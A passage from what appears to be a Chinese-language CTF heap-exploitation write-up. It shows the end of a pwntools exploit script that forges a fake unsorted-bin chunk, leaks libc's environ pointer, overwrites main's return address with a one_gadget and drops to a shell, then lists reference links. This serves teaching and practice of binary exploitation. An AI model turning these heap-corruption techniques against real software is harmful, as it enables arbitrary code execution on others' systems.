 ```python
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # 3. overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
    #gdb.attach(p)

    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```



## 參考文獻

- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606
- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf
- https://bbs.pediy.com/thread-226119.htm
